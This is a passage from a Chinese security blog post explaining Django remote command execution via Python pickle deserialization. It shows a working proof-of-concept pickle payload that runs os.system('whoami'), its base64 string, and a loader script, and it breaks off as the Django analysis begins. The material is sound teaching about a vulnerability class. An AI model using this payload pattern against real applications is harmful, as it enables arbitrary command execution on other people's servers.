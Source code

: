 ```yaml
---
layout: post
title: "Django 远程命令执行漏洞详解"
tags: [web, security]
---
```


### 一、背景

首先简单谈谈 Python 中的序列化模块。Python 中关于 `pickle` 序列化导致的任意命令执行问题早在 2002 年时就已经被提及，经过了长时间的测试和挖掘，其利用方法趋于固定，其 demo 如下：

`serializer.py` （用以生成序列化后的 payload）

{% highlight python %}
import base64
try:
    import cPickle as pickle
except:
    import pickle
    
    
class Whoami(object):
    def __reduce__(self):
        import os
        return (os.system, ('whoami', ))
    
sess = base64.b64encode(pickle.dumps(Whoami()))
print sess
{% endhighlight %}

代码执行后得到序列化后的字串：`Y3Bvc2l4CnN5c3RlbQpwMQooUyd3aG9hbWknCnAyCnRwMwpScDQKLg==`

`unserializer.py`（用以反序列化字符串生成对象）

{% highlight python %}
import sys
import base64
try:
    import cPickle as pickle
except:
    import pickle

pickle.loads(base64.b64decode(sys.argv[1]))
{% endhighlight %}

将前面的得到的序列化字串 `Y3Bvc2l4CnN5c3RlbQpwMQooUyd3aG9hbWknCnAyCnRwMwpScDQKLg==` 作为代码参数传入，得到输出：

![]({{ site.url }}/public/img/article/2015-09-12-django-command-execution-analysis/1.png)

可以看到 `whoami` 命令得到了执行，关于 `pickle` 的详细说明可参考[官方文档](https://docs.python.org/2/library/pickle.html)。

### 二、分析

简单的说明了 Python 中序列化导致的任意命令执行问题后，再来看看 Django 中与其相关的地方。（下面以 Django 1.5.12 作为环境进行示例说明）
